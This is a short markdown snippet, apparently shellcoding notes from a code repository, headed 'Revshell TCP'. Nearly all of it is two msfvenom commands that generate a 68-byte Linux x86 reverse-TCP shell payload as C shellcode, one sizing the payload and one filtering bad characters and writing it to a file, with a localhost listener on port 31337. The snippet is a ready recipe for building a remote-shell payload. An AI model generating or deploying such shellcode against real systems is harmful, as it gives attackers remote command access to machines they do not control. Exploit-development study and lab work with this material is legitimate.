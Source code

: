 ### Revshell TCP

**Find size**
size: 68bytes
```shell-session
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
```

**Get shellcode**

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c --bad-chars "<chars>" --out <filename>
```
